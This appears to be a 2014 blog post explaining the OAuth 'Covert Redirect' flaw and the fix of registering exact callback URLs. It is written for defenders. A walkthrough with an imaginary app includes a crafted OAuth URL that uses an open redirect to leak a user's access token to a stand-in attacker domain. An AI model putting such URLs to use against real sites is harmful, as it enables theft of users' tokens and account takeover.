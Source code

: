 ```yaml
---
title: Closing another nasty security hole in OAuth
date: 2014-05-02
---
```


News broke today about a [widespread security flaw in OAuth and OpenID](http://tetraph.com/covert_redirect/oauth2_openid_covert_redirect.html). The written material is a bit short on actual explanations or actionable steps, which is unfortunate when the flaw claims to affect virtually all OAuth providers and must be patched in the OAuth client applications.

In the spirit of [my previous post on OAuth security issues](http://technotes.iangreenleaf.com/posts/closing-a-nasty-security-hole-in-oauth.html), I want to give you a practical guide to the issue. We're going to learn, in order: how to know if you’re vulnerable, how to fix it, and (for the curious) what the flaw actually is.

## Does it affect you? ##

Quite likely[^1]. The flaw is not tied to a particular OAuth implementation or usage pattern[^2]. The simplest way to know if you are affected is to follow the steps to fix it in the next section. If there's nothing there for you to do, you weren't vulnerable.

## How to fix it ##

Thankfully, closing the security hole is simple. Follow these steps for each of the OAuth providers (Facebook, Google, GitHub, etc) that you use:

1. Log in to the provider's OAuth management page. This is where you first registered your application with the provider, and where they show you the Client ID and Client Secret.

2. Find the place to enter your application's redirect URL. Google calls this the "Authorized redirect URI". GitHub calls it the "Authorization callback URL". In Facebook, you will find this under "Settings -> Advanced -> Valid OAuth redirect URIs"[^3].

3. Enter your **full** callback URL(s) in this field. This means you should be providing the entire path, such as `https://mysite.com/oauth/callback`. Do *not* use wildcards, and do *not* use only the domain.

That's it! You're safe[^4].

## What's the danger? ##

This vulnerability has two parts: trick the OAuth provider into redirecting to an unusual place, then as a result trick the OAuth client into leaking credentials.

Here's how it would go down:

1. CoypuApp is the trendiest web community for fans of obscure rodent species[^8]. CoypuApp lets users log in with Facebook. Alice, the user, trusts CoypuApp and uses her Facebook account as her identity.

2. When CoypuApp registered as a Facebook developer, they set it to trust their entire domain, `www.coypu.ar`.

3. CoypuApp offers a common convenience feature - when a user lands on a page and then logs in, they will be returned to the page they were viewing. To accomplish this, CoypuApp's home page takes an optional extra parameter, like this: `http://www.coypu.ar/welcome?return_to=http%3A%2F%2Fwww.coypu.ar%2Fvideos%2F2243`. When `return_to` is present, it will redirect to the specified page, thus returning the user to the coypu video they were watching.

4. A malicious user posts on the CoypuApp forums[^5] purporting to link to an awesome coypu blog. In fact the URL is a handcrafted attack URL:

    ```
    https://www.facebook.com/dialog/oauth?client_id=5564&redirect_uri=http%3A%2F%2Fwww.coypu.ar%2Fwelcome%3Freturn_to%3Dhttp%253A%252F%252Fcoypu-haters.nz%252Fattack
    ```

    Let's break this link down: it initiates the OAuth login process with Facebook. One of the OAuth params is `redirect_uri`, which names the endpoint that Facebook will redirect to with a token. Normally, this would be `http://www.coypu.ar/oauth`, and CoypuApp would pull the token out of the hash and use it to authenticate the user[^6].

    But in this link, something is wrong. `redirect_uri` is set to another value: `http://www.coypu.ar/welcome?return_to=http%3A%2F%2Fcoypu-haters.nz%2Fattack`. Facebook looks at this link and sees that it is at the `www.coypu.ar` domain. Facebook thus assumes it is safe. But remember that convenience feature we talked about? The attacker has snuck the `return_to` param into this URL, and it is pointing to a malicious site, `coypu-haters.nz`!

5. Alice sees the link to "awesome coypu blog" and clicks it. In the worst case, she still has a valid session at Facebook and it remembers her authorization of CoypuApp, so she is immediately passed through the OAuth process[^7].

6. Alice's browser is redirected with the OAuth token in the hash: `http://www.coypu.ar/welcome?return_to=http%3A%2F%2Fcoypu-haters.nz%2Fattack#access_token=d34db33f`.

7. The convenience feature sees that `return_to` is present, so it redirects to the URL it is given: `http://coypu-haters.nz/attack#access_token=d34db33f`.

8. Oh crap. The owner of `coypu-haters.nz` now has Alice's OAuth token and has access to anything that Alice authorized CoypuApp to do. They immediately start posting vile anti-coypu screeds to Alice's facebook wall, badly tarnishing her reputation.

It's a clever attack. It combines the unavoidably stateless nature of OAuth with the unrelated (but common) occurrence of open redirection endpoints in OAuth client domains to manipulate the provider's trust and the client's lack of caution. The root cause here is the poor choice of trusting all routes in a client's domain. OAuth providers must start demanding exact redirect paths when client apps are registered, and this problem will be effectively eliminated.

[^1]: I *could* say that you are only vulnerable if your domain hosts an "open redirection" endpoint - an endpoint that takes another URL as a parameter and indiscriminately redirects to it. However, it is my belief that an open redirection endpoint is a natural waste product of any sufficiently complicated web application, and so it is unwise both to assume that you will be aware of any that exist, and to believe that you will not introduce one at a later date. It is far easier to fix this vulnerability as I proscribe than it is to audit your entire infrastructure for open redirections.

[^2]: Clients that use the "authorization code" flow of OAuth **and** authenticate the token request with a secret known only to the client server are not directly vulnerable. However, this does you no good unless the provider is locked down to allow only the authorization code flow for your application. The attacker can craft a malicious URL with `response_type=token`, and most providers will happily honor that regardless of whether you ever implemented the implicit grant flow. At this point you are every bit as vulnerable as anyone else.

[^3]: Facebook's handling of this is shoddy and irresponsible. By hiding this option in the "Advanced" settings and defaulting to trusting the full domain, they've ensured that the vast majority of Facebook OAuth clients will be vulnerable to this. Your data is deeply unsafe in Facebook's hands, but then again, you should have already known that.

[^4]: Hopefully it goes without saying that your OAuth callback endpoint doesn't itself perform open redirection while keeping the hash params intact. If you've made that poor of a decision, maybe you should let someone else handle the OAuth code from now on.

[^5]: The malicious user could post this link anywhere, but the easiest way to target coypu enthusiasts is through their own forums.

[^6]: Let's hope CoypuApp is following [my previous advice](http://technotes.iangreenleaf.com/posts/closing-a-nasty-security-hole-in-oauth.html) on authenticating their tokens.

[^7]: The best case is that Alice has not yet signed in to CoypuApp, and so when she clicks the link she is prompted to "Allow CoypuApp to see my Facebook information". This might tip Alice off that something is wrong. But ordinary people find the Internet very confusing and more often than not will simply follow the instructions. So this isn't much of a "best" case.

[^8]: [Ian Lunderskov](https://twitter.com/lundersaur) insists that I credit him for his role in the development of this imaginary web application.
